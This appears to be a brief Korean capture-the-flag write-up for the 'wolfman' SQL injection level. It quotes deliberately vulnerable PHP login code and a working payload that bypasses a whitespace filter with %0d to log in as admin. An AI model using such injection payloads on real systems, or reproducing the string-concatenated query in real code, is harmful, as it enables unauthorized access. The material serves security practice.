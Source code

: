 # wolfman

소스코드는 다음과 같다.

```php
<?php 
    include "./config.php"; 
    login_chk(); 
    $db = dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
    $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    if($result['id'] == 'admin') solve("wolfman"); 
    highlight_file(__FILE__); 
?>
```

`id`가 `admin`으로 로그인이 된다면, 문제가 풀린다.
`preg_match`를 보니 `whitespace`에 대해 `escape`를 해야한다.

> ?pw=' or id='admin
에서 공백을 %0d로 채워준다.

> ?pw='%0dor%0did='admin

`where`문이 True가 되어 클리어!
